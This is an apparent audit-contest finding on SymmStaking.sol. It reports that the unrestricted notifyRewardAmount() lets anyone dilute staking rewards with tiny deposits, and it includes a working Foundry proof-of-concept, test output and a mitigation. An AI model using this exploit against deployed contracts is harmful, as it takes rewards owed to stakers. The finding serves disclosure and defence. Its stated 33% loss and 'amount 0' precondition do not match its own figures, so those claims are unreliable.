 Round Strawberry Goose

Medium

# Arbitrary Parties Can Dilute the Staking Rewards Due to a Missing Access Control

### Summary

Anyone can call [`notifyRewardAmount()`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275) with very tiny amounts to dilute the reward state rate.

### Root Cause

Inside the function `notifyRewardAmount()` of the `SymmStaking.sol`, the function `_addRewardsForToken()` is called:

```Solidity
	function _addRewardsForToken(address token, uint256 amount) internal {
		TokenRewardState storage state = rewardState[token];

		if (block.timestamp >= state.periodFinish) {
			state.rate = amount / state.duration;
		} else {
			uint256 remaining = state.periodFinish - block.timestamp;
			uint256 leftover = remaining * state.rate;
			state.rate = (amount + leftover) / state.duration;
		}

		state.lastUpdated = block.timestamp;
		state.periodFinish = block.timestamp + state.duration;
	}
```
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L366-L379

As it can be seen from the code, if the `amount = 1` or other tiny amounts, the leftover will be divided by the whole `state.duration`. This is feasible as the `notifyRewardAmount()` lacks an access control and everyone can call this function.

### Internal Pre-conditions

1. The calling time must be inside the period duration and the period finish is not been reached yet.

### External Pre-conditions

1. The function `notifyRewardAmount()` should be called with amount 0

### Attack Path

1. Alice stakes some tokens.
2. Admin adds some rewards via `notifyRewardAmount()`.
3. Alice decides to claim her rewards after some time inside the current period duration.
4. Bob calls `notifyRewardAmount()` with just `amount = 1` and front runs Alice's tx.
5. Alice's rewards got diluted and she will receive less reward than expected.

### Impact

Dilution of staking rewards (reward loss) and making the whole process extremely slow.

### PoC

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import "../contracts/staking/SymmStaking.sol";
import "../contracts/token/symm.sol";
import "@openzeppelin/contracts-upgradeable/mocks/token/ERC20MockUpgradeable.sol";
import "@openzeppelin/contracts-upgradeable/mocks/token/ERC20DecimalsMockUpgradeable.sol";


contract StakingTest is Test {

    address private admin = makeAddr("Admin");
    ERC20MockUpgradeable rewardToken1;
    ERC20MockUpgradeable rewardToken2;
    SymmStaking staking;
    Symmio token;

    function setUp() public {

        token = new Symmio("Symmio", "SYMM", admin);

        rewardToken1 = new ERC20MockUpgradeable();
        rewardToken2 = new ERC20MockUpgradeable();
        rewardToken1.mint(admin, 1e24);
        rewardToken2.mint(admin, 1e24);

        vm.startPrank(admin);
        staking = new SymmStaking();
        staking.initialize(admin, address(token));
        staking.configureRewardToken(address(rewardToken1), true);
        staking.configureRewardToken(address(rewardToken2), true);
        rewardToken1.approve(address(staking), type(uint256).max);
        rewardToken2.approve(address(staking), type(uint256).max);
        vm.stopPrank();
    }

    function testRewardDilution() public {

        address alice = vm.addr(0x1002);
        deal(address(token), alice, 1e18);

        address bob = vm.addr(0x1003);
        deal(address(rewardToken1), bob, 1e18);

        vm.prank(bob);
        rewardToken1.approve(address(staking), type(uint256).max);

        address[] memory rewardTokens = new address[](1);
        rewardTokens[0] = address(rewardToken1);
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 3000e18;
        vm.prank(admin);
        staking.notifyRewardAmount(rewardTokens, amounts);

        vm.startPrank(alice);
        token.approve(address(staking), type(uint256).max);
        staking.deposit(1e18, alice);
        vm.stopPrank();

        uint rewardsDuration = 1 weeks;
        vm.warp(block.timestamp + rewardsDuration / 2);
        uint256 earned = staking.earned(alice, address(rewardToken1));
        console.log('Earned: ', earned); // We skiped 3.5 days, so the earned amount is around 1500

        vm.startPrank(bob);
        amounts[0] = 1;
        staking.notifyRewardAmount(rewardTokens, amounts);
        vm.stopPrank();

        vm.warp(block.timestamp + rewardsDuration / 2); 
        earned = staking.earned(alice, address(rewardToken1));
        console.log('Earned: ', earned); // After another 3.5 days the earned rewards must be around 3000, however they are ~2200 because of the depositRewards() call.
    }
}
```

The result is:

```Markdown
Ran 1 test for test/StakingTest.t.sol:StakingTest
[PASS] testRewardDilution() (gas: 632286)
Logs:
  Earned:  1499999999999999904000
  Earned:  2249999999999999856000
```

As it can be seen from the test, Alice's reward should be around 3000, however it is diluted to around 2250. This imposes a 33% reward loss.

### Mitigation

The function `notifyRewardAmount()` should be called only by authorized parties or the amounts must have a minimum deposit threshold depending to each reward token.
